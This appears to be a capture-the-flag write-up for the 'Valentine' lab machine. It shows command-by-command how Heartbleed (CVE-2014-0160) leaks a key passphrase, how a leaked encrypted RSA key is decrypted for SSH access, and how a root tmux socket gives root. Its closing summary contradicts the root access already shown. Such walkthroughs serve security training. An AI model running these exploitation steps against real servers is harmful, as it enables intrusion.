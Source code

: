 
---

## Nmap Enumeration

Initial scan to identify open ports and services:

```bash
nmap -sV -sC valentine.htb
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22
```

- Web server is running on both HTTP and HTTPS.
- SSL cert is expired and self-signed.
- SSH version is old and likely vulnerable to known exploits.
- Apache version is also outdated.

---
## Heartbleed Exploit (CVE-2014-0160)

Because OpenSSL is used for HTTPS and the version is vulnerable, we try the Heartbleed exploit:

```bash
searchsploit -m exploits/multiple/remote/32745.py
python2 32745.py valentine.htb
```

Output snippet:

```
...
0140: $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Base64 decode:

```bash
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
```

Result:

```
heartbleedbelievethehype
```

We now have the RSA key passphrase.

---

## Feroxbuster Directory Bruteforce

Using `feroxbuster` to enumerate paths on the web server:

```bash
feroxbuster -u http://valentine.htb -w /usr/share/wordlists/seclists/PathBANGER.txt -x php,sh,txt -C 404
```

Relevant hits:

```
/index
/index.php
/dev/
/dev/notes.txt
/dev/hype_key
/decode
/decode.php
/encode
/encode.php
/omg
/omg.jpg
```

---

## Notes Discovery

Visiting `/dev/notes.txt` reveals:

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

This implies the encoder/decoder may leak sensitive data. Might not be properly secured yet.

---

## Leaked RSA Key (Hex Encoded)

Visiting `/dev/hype_key` gives a hex blob. Download and convert:

```bash
wget https://valentine.htb/dev/hype_key --no-check-certificate
cat hype_key | xxd -r -p > rsa.enc
```

Result is:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3

-----END RSA PRIVATE KEY-----
```

It’s encrypted — we need the passphrase.

---

## Encoder/Decoder Discovery

- `/encode.php` and `/decode.php` appear functional.
- Based on the notes, encoding/decoding is supposed to be client-side but currently isn’t.
- These endpoints accept POST requests and reflect encoded/decoded content.

---

## Decrypting the Private Key

```bash
openssl rsa -in hype_key -out hype_key_decrypted_unencrypted.key
```

Enter the passphrase when prompted:

```
heartbleedbelievethehype
```

Successful decryption gives a usable private key.

---

## SSH Access

Make the key secure and connect:

```bash
chmod 600 hype_key_decrypted_unencrypted.key
ssh -i hype_key_decrypted_unencrypted.key \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostkeyAlgorithms=+ssh-rsa \
  hype@valentine.htb
# password: heartbleedbelievethehype
```

We gain shell access as user `hype`.

```
hype@Valentine:~$ cat user.txt
bf7eb8c600515cbb9fef7f2fde9a0773
```

```
ls -l /.devs
srw-rw---- 1 root hype 0 Apr 17 17:12 dev_sess
```
It’s a UNIX domain socket. Let's see what’s using it:
```
ps aux | grep dev_sess
root       1057  0.0  0.1  26416  1672 ?        Ss   17:12   0:01 /usr/bin/tmux -S /.devs/dev_sess
```
It’s a `tmux` session running as root, but the socket is readable by our `hype` user.

```
tmux -S /.devs/dev_sess attach
```

```
root@Valentine:/# whoami
root
cd /root
ls
# curl.sh  root.txt
cat root.txt
# 59485c3f0d079b8911b150465e749403
```



---

## Summary

| Step | Action |
|------|--------|
| 1 | Scanned with Nmap and discovered outdated Apache & OpenSSH |
| 2 | Enumerated web dirs with Feroxbuster and found notes, key, encode/decode pages |
| 3 | Found `/dev/hype_key` containing hex-encoded encrypted private key |
| 4 | Exploited Heartbleed to leak memory from HTTPS |
| 5 | Retrieved RSA key passphrase: `heartbleedbelievethehype` |
| 6 | Decrypted private key and SSH’d into the machine as user `hype` |

Next step would be local enumeration and privilege escalation to root.
